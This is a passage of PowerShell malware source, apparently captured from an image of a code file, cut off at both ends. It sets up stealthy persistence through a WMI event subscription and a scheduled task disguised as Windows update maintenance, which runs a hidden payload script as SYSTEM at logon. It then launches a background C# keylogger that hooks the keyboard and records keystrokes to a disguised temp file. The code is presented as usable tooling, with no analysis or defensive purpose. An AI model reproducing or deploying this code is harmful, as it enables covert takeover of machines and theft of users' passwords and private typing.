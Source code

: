 ```
        Name = 'WindowsUpdateTask'
        CommandLineTemplate = "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File `"$env:temp\payload.ps1`""
    }
    $consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $consumerArgs

    $bindingArgs = @{
        Filter = [Ref]$filter
        Consumer = [Ref]$consumer
    }
    New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $bindingArgs

    $taskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy Bypass -WindowStyle Hidden -File `"$env:temp\payload.ps1`""
    $taskTrigger = New-ScheduledTaskTrigger -AtLogOn
    Register-ScheduledTask -TaskName "WindowsUpdateMaintenance" -Action $taskAction -Trigger $taskTrigger -User "SYSTEM" -RunLevel Highest -ErrorAction SilentlyContinue
}

Invoke-Command -ScriptBlock $persistenceScript

# Stage 5: Background Operations
Start-Job -Name "Keylogger" -ScriptBlock {
    Add-Type -TypeDefinition @"
    using System;
    using System.IO;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.Windows.Forms;
    
    public class Keylogger {
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static IntPtr _hookID = IntPtr.Zero;
        private static string logPath = Path.Combine(Path.GetTempPath(), "systemlog.txt");
        
        [DllImport("user32.dll")]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);
        
        [DllImport("user32.dll")]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);
        
        [DllImport("user32.dll")]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);
        
        [DllImport("kernel32.dll")]
        private static extern IntPtr GetModuleHandle(string lpModuleName);
        
        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);
        
        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam) {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN) {
                int vkCode = Marshal.ReadInt32(lParam);
                File.AppendAllText(logPath, ((Keys)vkCode).ToString() + Environment.NewLine);
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }
        
```